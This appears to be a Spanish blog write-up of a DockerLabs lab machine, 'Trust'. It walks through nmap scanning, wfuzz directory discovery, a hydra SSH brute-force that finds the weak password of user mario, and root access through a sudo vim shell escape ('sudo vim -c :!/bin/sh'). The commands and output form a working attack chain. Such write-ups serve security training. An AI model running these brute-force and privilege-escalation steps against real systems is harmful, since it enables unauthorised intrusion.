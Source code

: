 ```yaml
---
title: Trust
date: 2025-08-23 18:00:00 +0200
categories: [writeup, dockerlabs]
tags: [dockerlabs, explotación web, escalada privilegios]     
image:
    path: https://dockerlabs.es/static/images/logos/logo.png
    alt: Docker Labs
---
```


## Trust

>Autor: El Pingüino de Mario
Dificultad: Muy Fácil
Fecha de creación: 22/04/2025
{: .prompt-tip }

Como es tan sencillo usar los contenedores de Dockerlabs he pensado creo que voy a empezar a lanzarlos directamente dentro de la máquina Kali25, por homogeneizar un entorno, aunque habrá herramientas que acabe instalado por necesidad de los retos.  

## Reconocimiento
Lanzo el contenedor y para empezar visito la dirección a ver si tiene un servidor web corriendo y lo tiene, pero con la página por defecto **Apache2 Debian Default Page**

Viendo esto opto por el escaneo con nmap. 

```shell
┌──(kali㉿kali25)-[~/Dockerlabs/trust]
└─$ nmap -p- -sV -T4 -vv 10.89.0.2    
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-23 15:43 CEST
NSE: Loaded 47 scripts for scanning.
Initiating ARP Ping Scan at 15:43
Scanning 10.89.0.2 [1 port]
Completed ARP Ping Scan at 15:43, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 15:43
Completed Parallel DNS resolution of 1 host. at 15:44, 13.00s elapsed
Initiating SYN Stealth Scan at 15:44
Scanning 10.89.0.2 [65535 ports]
Discovered open port 22/tcp on 10.89.0.2
Discovered open port 80/tcp on 10.89.0.2
Completed SYN Stealth Scan at 15:44, 0.85s elapsed (65535 total ports)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.57 ((Debian))
MAC Address: E6:35:17:0B:61:11 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.45 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)

```

Para buscar páginas no listadas uso la herramienta **Wfuzz** y como payloads un listado de directorios de **Seclist**

``` shell
┌──(kali㉿kali25)-[~/Dockerlabs/trust]
└─$ wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt --hc 404 http://10.89.0.2/FUZZ.php 
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.89.0.2/FUZZ.php
Total requests: 1273832

=====================================================================
ID           Response   Lines    Word       Chars       Payload                           
===================================================================== 
000005261:   200        39 L     78 W       926 Ch      "secret"    
```

Parece que encontramos una web **secret.php**

``` html

Hola Mario,

Esta web no se puede hackear.
```

## Explotación

Después de una inspección con el navegador, parece que efectivamente la web va a difícil de hackear, no tiene ningún punto de entrada, tampoco tiene controles, ni parece recibir ningún tipo de parámetro o siquiera ofrece unas cookies durante la sesión, con lo que no parece hackeable.

Probamos con la fuerza bruta? al menos tenemos un posible usuario **mario**

``` shell
┌──(kali㉿kali25)-[~/Dockerlabs/trust]
└─$ hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://10.89.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-23 21:01:00
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.89.0.2:22/
[22][ssh] host: 10.89.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
```
Vaya parece que ***mario*** usa una password muy débil que nos va a permitir entrar al sistema por SSH.

## Escalada de privilegios

``` shell
                                                                                                                                                            
┌──(kali㉿kali25)-[~/Dockerlabs/trust]
└─$ ssh mario@10.89.0.2
mario@10.89.0.2's password: 
mario@2dc2475cc677:~$ sudo -l
Matching Defaults entries for mario on 2dc2475cc677:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 2dc2475cc677:
    (ALL) /usr/bin/vim
```
Lo interesante aquí es saber que parece que puede correr vim con privilegios, eso me hace pensar que es posible utilizar vim para o escalar privilegios. Si consultamos [https://gtfobins.github.io/gtfobins/vim/](https://gtfobins.github.io/gtfobins/vim/) nos sugiere explotar vim de la siguiten manera

It can be used to break out from restricted environments by spawning an interactive system shell.
>vim -c ':!/bin/sh'

Efectivamente podemos llamar a una shell desde vim, probemos pero con privilegios.
``` shell
mario@79321b51ed1e:~$ sudo vim -c ':!/bin/sh'
[sudo] password for mario: 

# whoami
root
```

La web era solo para obtener información del usuario. Luego tenemos la fuerza bruta contra un servicio SSH, claro que con una contraseña muy débil y por último elevación de privilegios mediante una configuración insegura en este caso del fichero ```/etc/sudoers```


